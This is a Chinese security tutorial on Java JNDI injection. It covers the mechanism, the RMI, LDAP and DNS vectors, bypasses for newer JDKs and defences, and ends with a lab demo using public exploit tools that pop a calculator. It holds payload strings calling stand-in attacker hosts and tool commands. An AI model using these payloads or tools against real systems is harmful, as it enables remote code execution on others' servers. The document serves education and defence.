# JNDI注入

## 基础介绍

### 1 JNDI 的基本概念

JNDI（Java Naming and Directory Interface，Java命名和目录接口）是SUN公司提供的一组**应用程序编程接口（API）**，它为Java应用程序提供了访问各种命名和目录服务的**统一客户端接口**。JNDI的核心价值在于其**抽象层设计**，它允许开发人员使用相同的代码与不同类型的命名和目录服务（如RMI、LDAP、DNS、CORBA等）进行交互，而无需关心底层服务的具体实现细节。这使得Java应用程序能够以**标准化的方式**发现和查找各种资源（如数据库连接、远程对象、打印机等）以及其他程序对象，极大地增强了系统的**可维护性**和**灵活性**。例如，当数据库连接参数发生变更时，只需在JNDI环境中修改数据源配置，而无需修改所有应用程序代码，这简化了系统管理并降低了组件间的耦合度。

JNDI的架构主要包含两个部分：**应用层接口（API）** 和 **服务供应接口（SPI）**。API为开发人员提供了编程接口，主要包括 `javax.naming`包（用于命名操作，包含Context、Binding、References、lookup等核心类和接口）和 `javax.naming.directory`包（用于目录操作，扩展了命名服务以支持属性操作）。SPI则是一个服务提供者接口，它为各种具体的命名和目录服务（如RMI、LDAP）提供了**可插拔的集成方式**，使得不同的服务提供商可以实现这些接口并将其集成到JNDI框架中。这种设计使得JNDI能够作为一个**统一的桥梁**，连接Java应用程序与多样的后端服务。

在JNDI中，有几个核心概念需要理解：

- **命名服务（Naming Service）**：一种将名称与对象关联起来的服务，允许通过名称查找对象。这类似于电话簿通过姓名查找电话号码，或文件系统通过文件名查找文件。DNS（将域名映射到IP地址）和RMI注册表（将服务名映射到远程对象）都是典型的命名服务。
- **目录服务（Directory Service）**：命名服务的扩展，它不仅允许通过名称查找对象，还允许对象拥有**属性（Attributes）**。例如，LDAP（轻量级目录访问协议）中可以存储用户的姓名、邮箱、部门等属性。
- **上下文（Context）**：一个上下文对象包含了一组名称到对象的绑定关系。它可以被看作是一个**目录节点**，你可以在特定的上下文中进行查找、绑定等操作。多个Context可以级联形成一种树状结构。
- **引用（Reference）**：当对象无法直接存储在命名或目录服务中时，可以用一个Reference对象来表示它。Reference包含了如何访问实际对象的信息，例如对象的类名、工厂类的名称和位置（codebase）。当客户端查找该引用时，JNDI会使用指定的**ObjectFactory**来实例化并返回实际的对象。

一个简单的JNDI使用示例是获取一个初始上下文并进行查找：

```
// 设置环境属性，指定JNDI服务工厂和提供者URL
Hashtable<String, String> env = new Hashtable<>();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, "ldap://localhost:389");
// 创建初始上下文
Context ctx = new InitialContext(env);
// 查找名为"cn=john,ou=users,dc=example,dc=com"的对象
Object obj = ctx.lookup("cn=john,ou=users,dc=example,dc=com");
```

### 2 JNDI 注入的原理

JNDI注入是一种**严重的安全漏洞**，其核心原理在于攻击者能够**控制JNDI查找的地址或名称**，从而诱导应用程序从恶意的服务器加载并执行任意代码。该漏洞的利用条件有两个：一是应用程序使用用户可控的输入直接构造JNDI查找的名称（例如 `ctx.lookup(userInput)`）；二是应用程序运行在**较低版本的JDK**上（通常早于JDK 6u132, 7u122, 8u121），这些版本默认允许从远程codebase加载类文件。当这两个条件满足时，攻击者就可以通过精心构造的恶意JNDI地址（如 `rmi://attacker-server/Exploit`或 `ldap://attacker-server/Exploit`）实施攻击。



JNDI注入的攻击机制主要利用了JNDI **Reference** 的特性。Reference对象可以指向一个外部的类定义，指定类名（className）、工厂类名（factory）以及一个用于加载工厂类的codebase地址（factoryLocation）。当客户端在执行 `lookup()`时，如果从服务端获取到一个Reference对象，并且其factoryLocation指向一个远程地址，客户端会尝试从该地址（如HTTP服务器）下载工厂类的字节码，然后使用**URLClassLoader** 进行加载和实例化。攻击者可以在工厂类的静态代码块、构造函数或 `getObjectInstance()`方法中嵌入**恶意代码**（如执行系统命令），这些代码在类加载和实例化过程中就会被执行，从而在目标系统上实现远程代码执行（RCE）。

一个典型的JNDI注入攻击流程包含以下几个步骤：

1. **攻击者搭建恶意服务**：攻击者首先需要搭建一个恶意的RMI或LDAP服务器（例如使用marshalsec工具），并将一个恶意的Reference对象绑定到该服务器上。这个Reference指向攻击者控制的另一个HTTP服务器，该HTTP服务器托管着包含恶意代码的工厂类（.class文件）。
2. **诱使目标进行JNDI查找**：攻击者通过某种方式（如输入表单、HTTP请求头、日志记录等）将恶意JNDI地址（如 `${jndi:ldap://attacker.com/Exploit}`）注入到目标应用程序中。一个著名的例子是Log4Shell漏洞（CVE-2021-44228），攻击者通过注入恶意的日志消息触发漏洞。
3. **目标应用程序执行查找**：当目标应用程序处理该输入并执行 `lookup()`操作时，它会向攻击者控制的恶意服务器发起请求。
4. **恶意服务器返回Reference**：恶意RMI或LDAP服务器响应请求，返回一个精心构造的Reference对象。
5. **目标加载并执行恶意代码**：目标应用程序的JNDI客户端解析Reference对象，并从指定的codebase（攻击者的HTTP服务器）下载恶意工厂类。随后，在实例化该工厂类的过程中，嵌入其中的恶意代码得以执行，攻击者从而获得对目标系统的控制权。

### 3 JNDI 注入的利用方式

JNDI注入的利用方式主要根据所利用的协议向量来区分，其中**RMI**和**LDAP**是最为常见的两种利用向量。不同的向量在攻击设置和细节上有所不同，但最终目标都是诱导客户端加载并执行远程恶意代码。

1. **RMI向量利用**：RMI（Remote Method Invocation）是Java自身的远程方法调用机制。在利用RMI进行JNDI注入时，攻击者需要搭建一个恶意的RMI注册服务器。首先，攻击者使用 `Reference`类构造一个恶意引用，指定要加载的恶意类名和工厂类的位置（通常是一个远程HTTP URL）。由于RMI registry本身不能直接存储 `Reference`对象，攻击者会使用 `ReferenceWrapper`类对其进行包装，然后将其绑定到RMI registry的某个名称下（例如 `registry.bind("Exploit", new ReferenceWrapper(ref))`）。当受害者应用程序执行 `ctx.lookup("rmi://attacker-ip:1099/Exploit")`时，它会连接到恶意的RMI服务器，服务器返回这个 `ReferenceWrapper`。客户端随后会从 `factoryLocation`指定的远程HTTP服务器下载恶意类字节码，并进行实例化，从而导致恶意代码执行。在JDK高版本（>= 8u121）中，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`默认设置为false，阻止了从远程codebase加载类，使得这种利用方式在一定程度上被缓解。
2. **LDAP向量利用**：LDAP（Lightweight Directory Access Protocol）是一种轻量级目录访问协议。利用LDAP向量时，攻击者会搭建一个恶意的LDAP服务器（例如使用OpenLDAP或Java工具）。当受害者应用程序向恶意LDAP服务器发起查询请求时（例如 `ctx.lookup("ldap://attacker-ip:1389/cn=exploit,dc=example,dc=com")`），攻击者控制的LDAP服务器可以返回一个包含恶意Reference信息的目录条目（Entry）。该条目通常会设置 `javaClassName`属性以及 `javaCodeBase`、`objectClass`等属性来指向远程的恶意类。与RMI向量类似，客户端在解析该响应后，也会尝试从指定的codebase URL下载并实例化工厂类，触发代码执行。高版本JDK（>= 8u191）同样通过将系统属性 `com.sun.jndi.ldap.object.trustURLCodebase`默认设置为false来限制远程加载，增加了利用难度。

除了RMI和LDAP，**DNS** 等其它协议有时也被用于JNDI注入的辅助验证。例如，攻击者可以注入一个指向自己控制的DNS域的JNDI地址（如 `dns://attacker-domain.com`）。虽然DNS协议本身通常不能直接用于传输恶意Reference并执行代码，但如果目标应用程序发起了对攻击者域名的DNS查询，这至少可以证明存在**可控的JNDI查找点**，为后续利用其他向量提供线索。这是一种低干扰的漏洞探测方法。

值得注意的是，在高版本JDK默认防护措施生效后，攻击者并未完全放弃，而是研究出一些**绕过限制**的方法。例如，利用目标ClassPath中已有的、具有危险方法的类（如Tomcat中的 `org.apache.naming.factory.BeanFactory`结合EL表达式）作为ObjectFactory，从而在不依赖远程codebase的情况下实现本地代码执行。这些方法对攻击环境提出了更苛刻的要求，但依然值得警惕。

### 4 JNDI 注入的防御策略

防御JNDI注入需要采取多层次、纵深的安全策略，从代码开发、环境配置到网络层面进行全面加固。以下是一些关键且有效的防御措施：

- **升级JDK版本并及时打补丁**：这是最直接有效的防御手段。将JDK升级到**安全版本**（如JDK 8u191、11.0.1及以上），这些版本默认将 `com.sun.jndi.rmi.object.trustURLCodebase`和 `com.sun.jndi.ldap.object.trustURLCodebase`等关键系统属性设置为 `false`，从根本上禁止了JNDI从远程codebase加载类的行为，极大地遏制了最常见的远程利用方式。同时，密切关注Java官方发布的安全更新，并及时应用补丁，以修复新发现的安全漏洞。
- **对用户输入进行严格的过滤和验证**：在所有可能传递给JNDI API（尤其是 `lookup()`方法）的**用户输入点**实施严格的输入验证。坚决禁止输入中包含诸如 `ldap://`、`rmi://`、`dns://`、`${jndi:`等可能导致协议解析或表达式解析的危险**模式（Pattern）** 或**前缀**。建议采用白名单机制，只允许预期的、安全的字符和模式。对于日志记录等场景，确保在记录日志前对输入进行转义或过滤，防止像Log4Shell这样的漏洞被触发。
- **避免不可信输入直接控制JNDI查找**：从代码设计层面，**尽量避免**使用来自用户请求、网络传输等不可信来源的数据直接拼接或构造JNDI查找的名称（Name）。如果业务确实需要动态查找，应使用预定义的、受信任的资源名称映射，或通过间接的方式（如查询数据库配置）来获取安全的JNDI名称。
- **配置网络访问控制策略**：通过网络防火墙或安全组策略，严格限制应用程序服务器的**出站网络连接**。只允许应用程序访问其正常运行所必需的、受信任的**内部命名和目录服务**（如内网LDAP服务器、RMI注册中心），并阻断所有到外部未知服务器的访问请求。这样可以有效防止应用程序在遭受攻击时向外部恶意服务器发起连接，即使攻击注入了恶意地址。
- **使用JVM安全属性强化策略**：除了依赖高版本的默认设置，还可以在启动JVM时**显式设置**相关的安全属性，明确禁用远程类加载功能，例如添加 `-Dcom.sun.jndi.rmi.object.trustURLCodebase=false -Dcom.sun.jndi.ldap.object.trustURLCodebase=false`等参数。这为安全策略提供了一层明确的保证。
- **最小权限原则和代码审计**：遵循最小权限原则运行Java应用程序，避免使用过高权限的账户（如root或Administrator）。定期进行**代码安全审计**，重点关注所有调用了 `InitialContext.lookup()`、`NamingManager.getObjectInstance()`等方法的代码段，确保其参数可控性和安全性。同时，使用**运行时应用程序自我保护（RASP）** 或**Web应用防火墙（WAF）** 等安全产品，可以帮助检测和拦截恶意的JNDI注入尝试。

综合运用以上防御策略，可以构建一个相对完善的防护体系，显著降低应用程序遭受JNDI注入攻击的风险。

## 演示

### 环境准备

工具：https://github.com/vulhub/java-chains ，在自己的云服务器搭建使用

靶场：https://github.com/bewhale/JavaSec，本地部署

靶场启动后



在Fastjson中这个反序列化漏洞就是基于jndi注入实现的，打开我们部署的工具



配置工具后生成

然后复制这个链接到靶场的fastjson处，可以弹出计算器，对运行靶场的jdk版本有要求

工具：

https://github.com/cckuailong/JNDI-Injection-Exploit-Plus?tab=readme-ov-file



运行：

> java -jar JNDI-Injection-Exploit-Plus-2.5-SNAPSHOT-all.jar  -C "calc" -A 10.56.93.60

然后根据目标环境选择

在java-chains中，根据项目中的依赖以及版本还有jdk自身的版本，结合java-chains工具的介绍（https://java-chains.vulhub.org/zh/docs/guide），一一测试。

比如：









### 工具汇总

https://github.com/qi4L/JYso

https://github.com/X1r0z/JNDIMap

https://github.com/B4aron1/JNDIBypass

https://github.com/vulhub/java-chains

https://github.com/cckuailong/JNDI-Injection-Exploit-Plus

### Jyso

https://github.com/qi4L/JYso

使用文档：https://github.com/qi4L/JYso/wiki


项目运行需要在结尾添加参数`-j`,



测试，成功弹出计算器

### JNDIBypass

https://github.com/B4aron1/JNDIBypass

运行：

> java -jar JNDIBypass.jar  -a 10.56.93.60 -c calc

这个工具自动化，会自动尝试所有存在的可以成功的方法，





都可以弹出计算器


